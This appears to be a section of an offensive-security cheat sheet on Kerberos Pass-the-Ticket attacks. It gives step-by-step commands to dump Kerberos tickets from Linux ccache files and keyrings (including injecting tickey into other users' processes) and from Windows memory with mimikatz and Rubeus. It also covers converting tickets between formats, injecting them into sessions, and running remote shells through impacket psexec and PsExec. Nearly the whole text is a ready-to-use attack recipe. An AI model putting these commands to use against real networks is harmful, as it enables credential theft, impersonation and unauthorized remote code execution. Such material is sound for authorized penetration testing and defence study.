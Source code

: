 ### Pass The Ticket (PTT)
- Harvest tickets from Linux:
```
> grep default_ccache_name /etc/krb5.conf

# If none return, default is FILE:/tmp/krb5cc_%{uid}.
# In case of file tickets, you can copy-paste (if you have permissions) for use them.

# In case of being KEYRING tickets, you can use tickey to get them:
#   https://github.com/TarlogicSecurity/tickey
#   To dump current user tickets, if root, try to dump them all by injecting in other user processes
#   to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```
- Harvest tickets from Windows:
```
# mimikatz
mimikatz # sekurlsa::tickets /export

# Rubeus
.\Rubeus dump
# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

- To convert tickets between Linux/Windows format with ticket_converter.py:
```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

- Using ticket in Linux:
```
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

- Using ticket in Windows:
```
# Inject ticket with Mimikatz:
mimikatz # kerberos::ptt <ticket_kirbi_file>

# Inject ticket with Rubeus:
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>

# Execute a cmd in the remote machine with PsExec:
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```
